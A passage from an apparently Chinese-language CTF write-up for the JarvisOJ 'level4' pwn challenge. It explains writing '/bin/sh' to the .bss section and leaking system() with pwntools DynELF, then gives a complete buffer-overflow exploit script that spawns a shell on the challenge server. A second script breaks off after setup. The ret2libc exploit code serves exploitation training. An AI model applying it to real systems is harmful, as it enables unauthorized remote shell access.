 **得到pppr的地址为0x8048509,**因为NO PIE，故pppr应该是不变的[静态地址]

注意：[ASLR与PIE的区别](#Mark2)


**注：**为什么把“/bin/sh”写到.bss段呢？因为对待栈随机化等保护机制，一般.bss节的位置是不变的[NO PIE]。这样可以使用静态定值地址。而且全局数据就是存储在数据节[.bss属于数据节]，所以这样合适。

而且，**通过DynELF模块只能泄露到system()在内存中的地址，但无法泄露字符串“/bin/sh”在内存中的地址**。

readelf -S level2这个命令就可以获取到各个段的首地址

## 解题步骤 ##

法一：

    from pwn import *
	context(arch="i386",os="linux")
    r=remote('pwn2.jarvisoj.com',9880)
    elf=ELF('./level4')
    plt_write=elf.plt['write']
    plt_read=elf.plt['read']

    vuladr=elf.symbols['vulnerable_function']
    bssadr=elf.symbols['__bss_start']
    #elf.bss() elf.symbols['__data_start'] also can be used
     
    def leak(address):
    	payload1='A'*(0x88+0x4)+p32(plt_write)+p32(vuladr)+p32(0x1)+p32(address)+p32(0x4)
    	r.send(payload1)
    	leak_address=r.recv(4)
    	return leak_address
     
    #leak critical functions' addresses
    d=DynELF(leak,elf=ELF('./level4'))
    sysadr=d.lookup('system','libc')
    exitadr=d.lookup('exit','libc')
     
    #read '/bin/sh' in bss segment
    payload2='A'*(0x88+0x4)+p32(plt_read)+p32(vuladr)+p32(0x0)+p32(bssadr)+p32(0x8) #先写入bin/sh到bss段，再二次溢出
    r.send(payload2)
    r.send('/bin/sh\x00') #8个字节，read的第三个参数为8
     
    #pwn it!
    payload3='A'*(0x88+0x4)+p32(sysadr)+p32(exitadr)+p32(bssadr) #二次溢出到system函数[read的3个参数就留在栈中]
    r.send(payload3)
     
    r.interactive()

法二：

    #!/usr/bin/python 
    from pwn import *
    
    context(arch="i386",os="linux")
    elf = ELF('./level4')
    p = remote('pwn2.jarvisoj.com',9880)
    read_plt = elf.symbols['read']
    write_plt = elf.symbols['write']
    vuln_addr = elf.symbols['vulnerable_function']
    